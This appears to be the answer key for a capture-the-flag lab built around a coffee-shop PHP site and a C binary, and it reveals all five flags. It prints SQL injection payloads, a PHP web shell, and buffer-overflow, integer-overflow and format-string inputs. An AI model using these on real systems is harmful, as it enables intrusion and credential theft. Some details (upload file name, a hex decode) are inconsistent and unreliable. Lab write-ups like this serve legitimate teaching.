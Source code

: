 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database

**Hint:** Don't forget to add a space after the `--` to comment out the rest of the query.

2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Coffee Strength Flag

**Name**: Coffee Strength Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 1
**Flag Format**: CTF{m0cha_myst3ries_r3v34l3d}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `barista_academy`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./barista_academy
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 file and make it executable.

4. Run the Binary in Docker  
   1. Move the decoded `barista_academy` binary to the `challenge/secret-executable` directory.
   2. Build and run the Docker container:
      ```sh
      docker build -t barista-academy .
      docker run -it --rm barista-academy
      ```
    3. Alternatively, you may run the binary directly if you have the necessary environment set up, it is a linux/amd64 binary.

5. Exploit the Buffer Overflow
   1. When prompted to enter your favorite coffee blend, input a string that overflows the buffer and overwrites the `coffee_strength` variable.
   2. The goal is to change `coffee_strength` from its initial value (e.g., 17) to exact amount required (this is randomized). Try inputting a string like:
      ```
      1234567890123456789012345678N
      ```
   3. If the value is not correct, adjust the final character until you reach the target value. The program will give hints about the current strength.
   4. Upon success, the program reveals the flag:
      ```
      CTF{m0cha_myst3ries_r3v34l3d}
      ```
    5. Enter this flag when restarting the program to unlock the next challenge.

## Flag 4: Coffee Shop Balance Flag

**Name**: Coffee Shop Balance Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 2
**Flag Format**: CTF{espresso_3xpr3ss_secrets}

1. After capturing Flag 3, the program unlocks Challenge 2.
2. You start with 1100 coins and can buy coffees costing 900 coins each.
3. The program checks if you have enough balance for the purchase.
4. Exploit integer overflow by entering a very large number of coffees to make the total cost overflow to a negative number (e.g., `12312312`).
5. This causes your balance to increase incorrectly. Repeat purchases if needed.
6. Once your balance reaches or exceeds 100,000 coins, the program awards Flag 4:
   ```
   CTF{espresso_3xpr3ss_secrets}
   ```
7. Enter this flag when restarting the program to unlock the next challenge.

**Hint:** Try entering a very large integer as the number of coffees to order. If the program rejects non-numeric input, use a large positive number to trigger the overflow.

## Flag 5: Secret Order Printer Flag

**Name**: Secret Order Printer Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 3
**Flag Format**: CTF{cappucc1n0_cr4ck3r_4l3rt}

1. After capturing Flag 4, the program unlocks Challenge 3.
2. Use the secret order printer feature, which reads your input and passes it directly to `printf` without format string protection.
3. Exploit the format string vulnerability by sending a payload such as:
   ```
   %llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
   ```
4. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
5. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag. For example:
   - `707061637b465443` → `CTF{capp`
   - `635f306e31636375` → `uccino_3c`
   - ...

   There are many online tools available to help with this conversion. 

6. Combine the parts to get the full flag:
   ```
   CTF{cappucc1n0_cr4ck3r_4l3rt}
   ```

**Hint:** Use repeated `%llx` format specifiers to leak stack memory. Convert the hex output to ASCII and reverse the endianness for each chunk to reconstruct the flag.

